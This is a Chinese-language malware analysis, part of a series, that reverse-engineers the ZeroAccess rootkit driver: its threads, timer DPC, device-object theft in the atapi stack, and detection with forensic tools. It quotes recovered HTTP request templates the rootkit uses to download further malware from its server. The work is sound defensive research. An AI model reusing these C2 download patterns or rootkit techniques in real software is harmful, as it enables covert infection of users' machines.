

`KeInitializeQueue` 初始化一个队列对象 (`queue object`)，用来给线程按序等待和处理信条的。就在 `KeInitializeQueue` 其后，我们马上看到在一个对象解引用，还有一个调用 `PsCreateSystemThread`，创建运行在系统进程中的系统线程，当然，这个函数它也返回一个线程句柄的。可以观察到创建调用的最后一个参数压入的是盗取的驱动对象的 `StartContext`，这个参数是提供给线程开始执行时入口的单个参数。

这样我们就遇到了一个对线性代码执行流程的打断，我们需要在 `StartRoutine` 下一个断点，以可以让调试器捕捉住这个系统线程里发生些了什么。

## 系统线程分析

让我们请点出这个系统线程的代码做了些什么：



就像下面的 `DPC` (`Deferred Procedure Call`)，这系统线程是服务给网络传输的。

### 系统线程分析的结束

现在我们到了 `DriverEntry` 代码的最后一片了，一个 `IoAllocateWorkItem` 被调用到了，这个函数申请一个工作项 (`work item`)，它的返回值是一个指向 `IO_WORKITEM` 结构的指针。

一个驱动需要延迟执行的过程的话，它可以用工作项来实现，工作项包括一个驱动回调过程的指针，这可以一个执行先等待一个信号。驱动把工作项插入队列，其后一个做工作的系统线程把工作项从队列删除，线程还可以选择性运行驱动的回调过程。系统也负责维护这些系统线程的线程池，具体是一个系统线程一次一个工作项的分配。

这块有趣的是，`DPC` 的启动处理是需要一定长度的进程时间，或是进程进入一个阻塞型的调用才行，但它也是可以委派给一个拥有一个或多个工作项的系统线程的。当一个 `DPC` 在运行时，所有的线程都被从运行中阻断了。负责处理工作项的系统工作线程运行在的 `IRQL==PASSIVE_LEVEL`。所以在工作项的处理中也是可以包含阻塞型的函数调用的。例如，一个系统工作线程就可以等待一个调度用对象 (`dispatcher object`, 如 `KeWaitForSingleObject`)

接着分析后面的，如果 `IoAllocateWorkItem` 返回了 `NULL` 值（当没有足够资源了的时候这就会发生），执行会直接跳转到下面的 `IoCreateDriver`，否则则会安装一个内核计时器 (`Kernel Timer`)，并且会调用起一个 `DPC`。让我们来看看具体的这儿的一段代码实际是什么。

`KeInitializeTimer` 填充 `KTIMER` 结构，调用成功的 `KeInitializeDpc` 则创建一个自定义的 `DPC`，最终 `KeSetTimerEx` 设置在一个绝对或相对间隔后置位的时间对象。

```
BOOLEAN KeSetTimerEx(
   __inout PKTIMER Timer,
   __in LARGE_INTEGER DueTime,
   __in LONG Period,
   __in_opt PKDPC Dpc
);
```

实质性的，因为我们是存活了一个 `DPC`，所以整段上述流程就因它而成了一个经典的 `CustomTimerDpc` (自定义计时器的 `DPC`) 安装过程，这个 `DPC` 会在时间对象的间隔触发后执行。

对我们而言，这儿发生的事就是另一个对于线性代码执行流程的打断，来源是由设备驱动调用的 `KeInitializeDpc`。`DPC` 提供了打断进当前运行中的线程去执行的能力（在我们的实例中是计时器的触发），同时它的能力还有一个过程在 `IRQL==DISPATCH_LEVEL` 的执行。 `DPC` 可以通过在 `KeInitializeDpc` 的参数 `DeferredRoutine` 指针处设置一个断点，来让调试器可以跟踪到它。

## DPC 流程的分析

这是 `DPC` 安装时设置的地址的核心指令：



我们需要继续查看由 `IoQueueWorkItem` 的参数所指向的 `WorkerRoutine`。先越过不必要的细节们，直接对 `WorkerRoutine` 进行简单阅览，过程中我们会发现 `RtlIpv4StringToAddressExA` 函数。它的作用是转换一个字符串的 `IPv4` 地址和端口数字到一个二进制化的 `IPv4` 地址和端口。借于 `IDA` 的名称窗口的 `CrossReferences` (交叉引用) 查看 `DPC` 的 `WorkerRountine`，我们可以看到下列的字符串：

```
\\Device\\Tcp
\\Device\\Udp

db 'GET /%s?m=%S HTTP/1.1',0Dh,0Ah
db 'Host: %s',0Dh,0Ah
db 'User-Agent: Opera/9.29 (Windows NT 5.1; U; en)',0Dh,0Ah
db 'Connection: close',0Dh,0Ah

还有

db 'GET /install/setup.php?m=%S HTTP/1.1',0Dh,0Ah
db 'Host: %s',0Dh,0Ah
db 'User-Agent: Opera/9.29 (Windows NT 5.1; U; en)',0Dh,0Ah
db 'Connection: close',0Dh,0Ah
```

这 `DPC` 是实现的是从 `TDI` (`Transport Data Interface` 数据传输层) 访问网络的功能，这是立马可以明白的事实，因为它里面使用了 `TDI` 提供者 `\\Device\\Tcp` 和 `\\Device\\Udp`。这 `DPC` 是要下载来另一个病毒文件的：

`\\??\\C2CAD972#4079#4fd3#A68D#AD34CC121074\\`

## Vulnerabilities in the ZeroAccess Rootkit.

每一个 rootkit 都有比其他的更强一些的部分。在我们的例子里 `ZeroAccess` rootkit 在文件系统上的功能非常出众。当逆向工程病毒到现在这个程度的时候，我们就发现了这个强劲结构里的一些可以利用的薄弱之处。表现就是我们注意到了一些常见的感染了 rootkit 的特殊情况。

在这个驱动中最不隐蔽的部分是：

*   系统线程
*   内核计时器和 `DPC`
*   未定的原始系统模块

让我们从一个调查人员的角度来看看 `DPC` 注入。一个 `DPC` 的存在，除了一个简单的由 `KDPC` 结构定位出来的，保存着回调指针的 `LIST_ENTRY` 结构外，就没别的了。这个结构是一个 `DEVICE_OBJECT` 结构的元素，所以一个简单的方法是检索出这个驱动对象，并浏览进去定位到存在的注册了的 `DPC` 过程。为了进行这个检索，我们可以使用 `KernelDetective` 工具，它真的是非常方便在内核进行鉴定调查的一个好工具。



`DPC` 还和一个时间对象是相关联的，所以我们还可以枚举出所有的内核计时器：



正如你见到的，对应的计时器就是可疑的，因为它跟一个无名称的模块关联到一起了，时间隔周期也对应之前在截图上见过的一个。把 `DPC` 指向的代码往下滚动些，我们就确信了 `ZeroAccess` 的存在。



像你记得的，这个驱动还通过 `PsCreateSystemThread` 创建了一个系统线程。这个操作看起来是极其明显的，因为它创建的是一个系统进程里的对象。系统进程的地址空间是初始化为空的，里面也是拿来映射系统的，它还从系统初始化进程上继承到了它的访问令牌和其他的属相，系统进程还特殊在创建时有的是一个空的句柄表。

所有的这些，都意味着查找一个 rootkit 时，你也可以把系统线程的情况作为检查的一部分。它的对象是结结实实的好找和好枚举；我们可以用 `Tuluka` (`http://www.tuluka.org/`) 工具来快速发现可疑的系统线程。



### DPC 过程分析的结束

最终的，在安装 `CustomTimerDpc` 的之后，我们前进到了整个驱动的最后一片代码，也即调用到 `IoCreateDriver` 的地方。

这是另外一个未文档化的内核导出的函数：

```
NTSTATUS WINAPI IoCreateDriver(
UNICODE_STRING *name,
PDRIVER_INITIALIZE init );
```

这个函数为一个内核中的没被载入成驱动的组件提供使它可以创建一个驱动对象的功能。如果这驱动对象的创建成功了，函数参数中的初始化函数就会被用和传递给 `DriverEntry` 的参数一样的调用到。

所以，我们接着转进新的 `DriverEntry` 过程。

## New DriverEntry

这儿是新的 `DriverEntry` 的代码：



通过 `ZwOpenDirectoryObject` 打开了对象目录 (`object directory`)，随后申请了一块 `Pool` 内存，这块内存将被用在保持 `ZwQueryDirectoryObject` 的输出：



在这块代码中，rootkit 在对象目录中循环，而且在每个迭代都组成一个下面格式的字符串：

`\\device\\ide\\device_name`

继而用 `IoGetDeviceObjectPointer` 从对象名称枚举出一个 `DEVICE_OBJECT` 的指针。凭其和元素的关系这个指针给了我们下几个元素：

```
DeviceObject = Object->DeviceObject;
drvObject = DeviceObject->DriverObject;
ObfReferenceObject(DeviceObject);
ObMakeTemporaryObject(DeviceObject);
ObfDereferenceObject(Object);
```

这儿，我们同时拥有设备对象 (`DeviceObject`) 和驱动对象 (`DriverObject`) 了：



`IoCreateDevice` 创建对应的设备对象 (`Device Object`)，随后验证是否 `DeviceObject->DeviceType` 对应设备的类型是否为一个 `FILE_DEVICE_CONTROLLER`。若是，会执行之前说过的对象盗取流程。

概况的说上面的代码，就是 rootkit 搜索过设备的堆栈，并把负责处理受害机器的 `IDE` 类型设备给选取出来。

`IDE` 设备是由 `atapi` 驱动创建的。下面插图中的前二个设备是用给 `CD` 和硬盘的。后二个才是与 `Mini-Port` 驱动协同工作的控制器，这个也是为什么 `ZeroAccess` 要特别寻找 `FILE_DEVICE_CONTROLLER` 类型的设备 (`\\idePort1` 和 `\\idePort0`)



上面的代码说明，`ZeroAccess` 不仅仅要在 `disk.sys` 中添加设备，还必须在 `atapi.sys` 的堆栈中添加设备来实现它的盗取功能。

让我们现在查看下设备树，并解剖出 `ZeroAccess` 的感染对驱动和设备树的改变：



我们拿到了 `ZeroAccess Rootkit` 感染的一部分最重大证据了，我们发现了二个 `Atapi DRV` 实例的存在，其中的一个还有未命名设备的存在。这个作风也是很宽泛的一批 rootkit 所有的。同时，这个输出也完全的跟上面分析的驱动代码指令匹的工作流程配得上。

在第二个 `atapi.sys` 实例中，我们发现了一些不那么明显的 rootkit 踪迹。我们看到二个新的属于 `atapi` 驱动的设备：

*   `\\PciIde0Channel1-1`
*   `\\PciIde0Channel0-0`

这儿，我们遇到了另一个盗取对象的例子，也是为了文件系统的隐藏而作的 `IRP Hook`，只是，这一次是基于 `\\Device\\PCI` 的。

而分析完它，就将完成我们第一个驱动的分析过程，在接下来的章节 3 中，[我们来逆向分析内核模式的设备驱动注入 >>](http://resources.infosecinstitute.com/zeroaccess-malware-part-3-the-device-driver-process-injection-rootkit/)

## 上传的附件

|  | `ndiswan.rar` |
| :--- | :--- |
